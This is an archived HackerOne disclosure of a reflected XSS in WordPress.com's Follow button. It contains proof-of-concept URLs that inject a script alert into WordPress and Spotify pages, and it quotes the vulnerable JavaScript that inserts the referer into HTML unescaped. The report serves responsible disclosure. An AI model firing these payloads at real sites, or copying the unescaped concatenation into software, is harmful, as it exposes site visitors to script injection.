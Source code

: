 # Follow Button XSS

## Report Details
- **Report ID**: 172574
- **URL**: https://hackerone.com/reports/172574
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-09-28T07:06:46.944Z
- **Disclosed**: 2016-10-28T12:44:46.991Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
**PoC**
1) Open link
2) Click "Follow" in the bottom right-hand corner

XSS Should work on any wordpress site with this Follow button. 
fbd.isLoggedIn must be equal to false.

```
https://apps.wordpress.com/support/&quot;&gt;&lt;script&gt;alert(document.domain)&lt;/script&gt;
https://labs.spotify.com/&quot;&gt;&lt;script&gt;alert(document.domain)&lt;/script&gt;
https://news.spotify.com/tr/&quot;&gt;&lt;script&gt;alert(document.domain)&lt;/script&gt;
```

**Vulnerable Code**
apps.wordpress.com
```html
<script type='text/javascript'>
/* <![CDATA[ */
var actionbardata = {
...
"subscribeNonce":"<input type=\"hidden\" id=\"_wpnonce\" name=\"_wpnonce\" value=\"9dca8606d3\" \/><input type=\"hidden\" name=\"_wp_http_referer\" 
value=\"\/support\/\"><script>alert(document.domain)<\/script>\" \/>",
"referer":"https:\/\/apps.wordpress.com\/support\/\"><script>alert(document.domain)<\/script>",
"canFollow":"1"
...
</script>
```

s2.wp.com/_static/
```js
	// Follow Site
	$actionbar.on(  'click', '.actnbr-actn-follow', function(e) {
		e.preventDefault();

		if ( fbd.isLoggedIn ) {
			showActionBarStatusMessage( '<div class="actnbr-reader">' + fbd.i18n.followedText + '</div>' );
			bumpStat( 'followed' );
			request( 'ab_subscribe_to_blog' );
		} else {
			showActionBarFollowForm();
		}
	} )
	...
		function showActionBarFollowForm() {
		var btn = $( '#actionbar .actnbr-btn' );
		btn.toggleClass( 'actnbr-hidden' );

		$( '#actionbar .actnbr-follow-bubble' ).html( ' \
			...
			<input type="hidden" name="blog_id" value="' + fbd.siteID + '"/> \
			<input type="hidden" name="source" value="' + fbd.referer + '"/> \
			<input type="hidden" name="sub-type" value="actionbar-follow"/> \
			' + fbd.subscribeNonce + ' \
			...
		');
```




## Attachments
- Screenshot_at_11-06-11.png
